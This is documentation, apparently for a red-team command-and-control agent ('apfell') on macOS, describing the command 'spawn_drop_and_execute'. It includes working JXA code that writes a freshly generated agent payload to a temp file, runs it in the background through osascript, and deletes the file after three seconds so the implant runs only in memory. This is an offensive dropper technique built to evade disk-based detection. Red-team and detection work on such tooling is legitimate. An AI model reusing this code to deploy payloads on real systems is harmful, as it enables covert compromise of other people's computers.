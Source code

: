 ```yaml
---
title: "spawn_drop_and_execute"
description: "Generate a new payload, drop it to a temp location, execute it with osascript as a background process, and then delete the file. Automatically reports back the temp file it created."
---
```


## Summary

Generate a new payload, drop it to a temp location, execute it with osascript as a background process, and then delete the file. Automatically reports back the temp file it created.

- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

#### template

- Description: apfell agent to use as template to generate a new payload   
- Required Value: True  
- Default Value: None  

## Usage

```
spawn_drop_and_execute
```


## Detailed Summary
This function takes the `apfell` payload indicated by `template`, generates a new instance of it, writes it to a random filename in `/temp`, starts its execution as a backgrounded processes, waits three seconds, and removes the file. The file can be removed from disk because once the `osascript` binary kicks off with the JavaScript code, it's all being executed and compiled (JIT) in memory, so the file on disk is no longer needed. 

The temporary file created is reported back as an artifact automatically.

```javascript
let path = "/usr/bin/osascript";
let result = write_data_to_file(file, temp_file);
if(result !== "file written"){return {"user_output": result, "completed": true, "status": 'error'};}
else{artifacts.push({"base_artifact": "File Write", "artifact": temp_file});}
let args = ['-l','JavaScript', temp_file, '&'];
try{
    let pipe = $.NSPipe.pipe;
    let file = pipe.fileHandleForReading;  // NSFileHandle
    let task = $.NSTask.alloc.init;
    task.launchPath = path;
    task.arguments = args;
    task.standardOutput = pipe;
    task.standardError = pipe;
    task.launch;
    artifacts.push({"base_artifact": "Process Create", "artifact": "/usr/bin/osascript " + args.join(" ")});
}
catch(error){
    return {"user_output":error.toString(), "completed": true, "status": "error", "artifacts": artifacts};
}
//give the system time to actually execute the file before we delete it
$.NSThread.sleepForTimeInterval(3);
let fileManager = $.NSFileManager.defaultManager;
fileManager.removeItemAtPathError($(temp_file), $());
```
